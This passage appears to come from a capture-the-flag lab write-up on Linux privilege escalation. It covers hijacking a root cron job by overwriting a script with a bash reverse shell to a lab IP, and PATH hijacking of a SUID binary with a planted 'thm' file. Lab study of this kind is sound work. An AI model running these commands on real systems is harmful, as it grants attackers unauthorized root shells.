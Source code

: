 Result:

```bash
* * * * *  root /antivirus.sh
* * * * *  root antivirus.sh
* * * * *  root /home/karen/backup.sh
* * * * *  root /tmp/test.py
```

Tamper the shell script

```bash
echo -e '#!/bin/bash\nbash -i >& /dev/tcp/10.11.19.145/1111 0>&1' > /home/karen/backup.sh
```

## Privilege Escalation: PATH

```bash
karen@ip-10-10-230-253:/$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

**Checklist:**
1.  What folders are located under $PATH
2.  Does your current user have write privileges for any of these folders?
3.  Can you modify $PATH?
4.  Is there a script/application you can start that will be affected by this vulnerability?

**Find if the sub dir under usr is writeable**

```bash
 find / -writable 2>/dev/null| grep usr | cut -d "/" -f 2,3 | sort -u
```

**Path Injection**

Found a suid bits set file

```bash
karen@ip-10-10-230-253:/home/murdoch$ find / -type f -perm -04000 2>/dev/null
...
/home/murdoch/test
karen@ip-10-10-230-253:/home/murdoch$ ls -la
total 32
drwxrwxrwx 2 root root  4096 Oct 22  2021 .
drwxr-xr-x 5 root root  4096 Jun 20  2021 ..
-rwsr-xr-x 1 root root 16712 Jun 20  2021 test
-rw-rw-r-- 1 root root    86 Jun 20  2021 thm.py
karen@ip-10-10-230-253:/home/murdoch$ ./test
sh: 1: thm: not found
```

Make `thm` available to call

```bash
cd /tmp
mkdir www
cd www
echo '/bin/bash' > thm
chmod +x thm
export PATH=/tmp/www:$PATH
```
